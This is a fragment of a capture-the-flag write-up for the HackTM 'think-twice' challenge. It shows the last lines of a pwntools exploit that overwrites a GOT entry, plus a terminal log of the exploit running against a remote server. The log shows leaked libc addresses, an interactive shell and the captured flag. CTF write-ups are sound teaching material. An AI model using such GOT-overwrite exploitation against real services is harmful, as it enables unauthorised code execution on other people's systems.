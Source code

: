 ```python

write(buf_base , got_start)
s.sendlineafter(" >",fake_got)


s.interactive()
```

```bash
slashb4sh@ubuntu:~/HackTM/think-twice$ python exploit.py 
[+] Opening connection to 138.68.67.161 on port 20004: Done
[*] stdin @ 0x7f9b57cdc8c0
[*] libc base @ 0x7f9b57943000
[*] execve @ 0x7f9b579fae80
[*] Switching to interactive mode
$ ls
flag.txt
libc.so
loader.so
run.sh
think-speak
$ cat flag.txt
HackTM{th3_my5t3r13s_0f_th3_ELF_h4v3_b33n_r3v34l3d}
```
